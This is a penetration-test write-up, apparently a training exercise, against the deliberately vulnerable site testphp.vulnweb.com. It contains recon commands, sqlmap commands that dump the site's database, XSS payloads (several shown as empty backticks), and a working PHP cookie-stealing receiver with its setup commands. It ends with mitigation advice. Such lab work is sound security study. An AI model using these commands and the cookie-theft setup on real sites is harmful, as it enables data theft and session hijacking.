

# Introduction

This comprehensive penetration test was to identify and exploit
vulnerabilities such as SQL Injection and Cross-Site Scripting (XSS),
using reconnaissance, vulnerability scanning, and exploitation

# Task Level: Advanced
| **S.NO** | **TITLE**                                                                                                                                                                              |
|----------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 3        | Create a detailed report including the information, planning, and the attacks initiated, along with the steps involved to analyze and initiate the attack on the website `http://testphp.vulnweb.com/` |

# Task: Penetrate the Website `http://testphp.vulnweb.com/`

> Machine Used : Kali Linux

# Information 

-   **Reconnaissance**: Identified the target's IP, open ports,
    services, and directory structure to map attack surfaces.

-   **Vulnerability Identification**: Probed for SQL Injection and XSS
    vulnerabilities to uncover exploitable flaws in the web application.

-   **Exploitation**: Leveraged identified vulnerabilities to extract
    sensitive data (database contents) and steal session cookies,
    demonstrating real-world risks.

**Attack Name**: Web Application Penetration Testing

**Severity**: Critical

**Reason**: Exploiting vulnerabilities like SQL Injection and XSS can
lead to data breaches, unauthorized access, or session hijacking, posing
severe risks to the website and its users.

# Steps Taken

## 1. Information Gathering
- Resolved the target's IP address: `host testphp.vulnweb.com`
  **Output**: testphp.vulnweb.com has address `44.228.249.3`.

- Performed an Nmap scan to identify open ports and services: `nmap -sV -p-
44.228.249.3`
  **Output**: Open ports: 21 (ftp), 80 (http, nginx 1.19.0), 587
(submission).

- Enumerated directories with Gobuster: `gobuster dir -u http://testphp.vulnweb.com/ -w /usr/share/wordlists/dirb/common.txt`
  **Output**: Directories and files including /admin/ (301), /cgi-bin/
(403), /crossdomain.xml (200), /CVS/ (301), /images/ (301), /index.php
(200), /pictures/ (301), /secured/ (301), /vendor/ (301).

- Spidered the site with wget to map endpoints: `wget --spider -r http://testphp.vulnweb.com/`
  **Output**: Identified pages like /search.php, /guestbook.php,
/product.php, /userinfo.php, /artists.php and more.

## 2. Vulnerability Identification

- Tested for SQL Injection on /search.php: `sqlmap -u "http://testphp.vulnweb.com/search.php?test=query" --dbs --batch`

  **Output**: Confirmed MySQL backend, identified databases: acuart,
information_schema. Parameter test was injectable via boolean-based
blind, error-based, time-based blind, and UNION query techniques.

- Tested for Reflected XSS on /search.php:
  Submitted in the search bar: ``
  Tested alternative payloads: ``, ``,`<iframe src="javascript:alert('YOU_ARE_HACKED')">`

**Output**: Confirmed reflected XSS; YOU_ARE_HACKED alert displayed even persisting after refresh.

- Tested for Stored XSS on /guestbook.php:

  Submitted in the comment section: ``,``,`
Hover here
`

**Output**: Confirmed stored XSS in the page source field by clicking
F12; YOU_ARE_HACKED alert was triggered.

## 3. Exploitation

- Exploited SQL Injection: `sqlmap -u "http://testphp.vulnweb.com/search.php?test=query" --dump --batch`
  **Output**: Dumped acuart database tables: This is just a summary...see more in the screenshots afterwards.

| **Table Name** | **Number of Entries** | **Sample Entry**                                                                 |
|----------------|-----------------------|----------------------------------------------------------------------------------|
| carts          | 1                     | cart_id: dc1ef9007bd8752eee4aac72762673c9, item: 2, price: 80                   |
| categ          | 4                     | cat_id: 1, cname: Posters                                                       |
| pictures       | 7                     | pic_id: 1, title: The shore, price: 500                                         |
| users          | 1                     | uname: test, pass: test, email: Abdumalikov@email.com, name: john                |
| featured       | 0                     | —                                                                                |
| products       | 3                     | id: 1, name: Network Storage D-Link DNS-313, price: 359                         |
| artists        | 3                     | artist_id: 1, aname: r4w8173                                                    |
| guestbook      | 0                     | —                                                                                |

- Exploited Stored XSS on /guestbook.php
  I set up Apache2 on Kali (192.168.56.109):
  `sudo systemctl start apache2`
  `sudo nano /var/www/html/steal.php`

**Content of steal.php**:

`<?php
$cookie = $_GET['cookie'];
file_put_contents('/var/www/html/stolen.txt', $cookie . "\n", FILE_APPEND);
header('Location: http://testphp.vulnweb.com');
?>`

Then I had to set permissions:
`
sudo touch /var/www/html/stolen.txt
sudo chmod 666 /var/www/html/stolen.txt
sudo chown -R www-data:www-data /var/www/html
`

I then injected payload in guestbook: ``

Checked stolen cookies: `cat /var/www/html/stolen.txt`

**Output**: Captured cookie (`lassey`) (I simulated this with a custom cookie)

- Exploited Reflected XSS on /search.php:
  Injected payload in search bar: ``

  Checked stolen.txt: `cat /var/www/html/stolen.txt`

**Output**: Confirmed stolen cookie (`login=test/test`) 

## Screenshots

{

# Analysis

-   The Nmap scan confirmed open ports, with nginx 1.19.0 and PHP 5.6.40
    on port 80, both outdated and potentially vulnerable to known
    exploits.

-   Gobuster revealed sensitive directories (`/admin/`, `/secured/`),
    indicating poor access controls and directory indexing.

-   SQL Injection on `/search.php` allowed full database access, exposing
    user credentials (uname: test, pass: test) and product data,
    highlighting a lack of input sanitization.

-   Reflected and stored XSS vulnerabilities on `/search.php` and
    `/guestbook.php` enabled execution of malicious scripts, with stored
    XSS affecting all users viewing the guestbook.

-   Cookie-stealing exploits demonstrated the potential for session
    hijacking, as cookies were successfully captured via `steal.php`.

# Impact

-   **SQL Injection**: Exposure of the acuart database.
-   **Outdated Software**: Nginx 1.19.0 and PHP 5.6.40 are susceptible
    to known vulnerabilities, potentially allowing remote code execution
    or denial-of-service attacks.

# Mitigation

-   **Upgrade nginx and PHP to the latest versions to address known
    vulnerabilities.** Newer versions of nginx and PHP have fixes for bugs that attackers could use. This makes it harder for attackers to exploit outdated software.

-   **Implement a Web Application Firewall (WAF) to filter malicious
    requests.** A WAF checks all incoming requests and stops dangerous ones, like those trying to steal data or run scripts. A WAF would block payloads like query' OR 1=1-- (SQL Injection) or XSS scripts.

-   **Conduct regular security audits and vulnerability scans.** Audits and scans using OpenVAS act like routine health checkups, catching new problems before attackers do. Regular scans would detect issues like outdated software or new XSS vulnerabilities, preventing attacks like SQLmap database dump or cookie theft.

-   **SQL Injection**
    Use parameterized queries or prepared statements in PHP. Parameterized queries treat inputs like query' OR 1=1-- as plain text, not SQL commands, so attackers can't manipulate the database query.

-   **Sanitize and validate all user inputs on the server side:** Input validation stops malicious inputs from
reaching the database, preventing data leaks like how I dumped
acuart.users.

-   **XSS (Cross-Site Scripting)**

    -   **Implement Content-Security-Policy (CSP) headers to restrict
        script execution** CSP is like a browser rulebook, allowing only trusted scripts from the website itself. CSP would block malicious payloads.

-   **Escape all user inputs in HTML, JavaScript, and attribute
    contexts** Escaping converts dangerous characters so browsers treat
them as text, not code. This would display `` as plain text, stopping
it from running and preventing cookie theft.

-   **Disable directory indexing in nginx configuration**
  Disabling indexing hides file lists, so visiting /admin/ returns an
error instead of showing contents, reducing exposure. Edit nginx configuration and set autoindex off.

-   **Restrict access to sensitive directories with authentication**
  Requiring a username and password for /admin/ would prevent unauthorized
access, stopping attacks that exploit exposed directories.

-   **Implement session expiration and regeneration after login**

Stolen cookies could be used until the
session expires, allowing attackers to act as the user. Short sessions
and new IDs after login limit this risk. If a session expires quickly,
stolen cookies become useless. Regenerating IDs after login old
sessions, stopping cookie theft exploit.

**Tools Used**

-   host

-   Nmap

-   Gobuster

-   wget

-   SQLmap

-   Apache2 web server
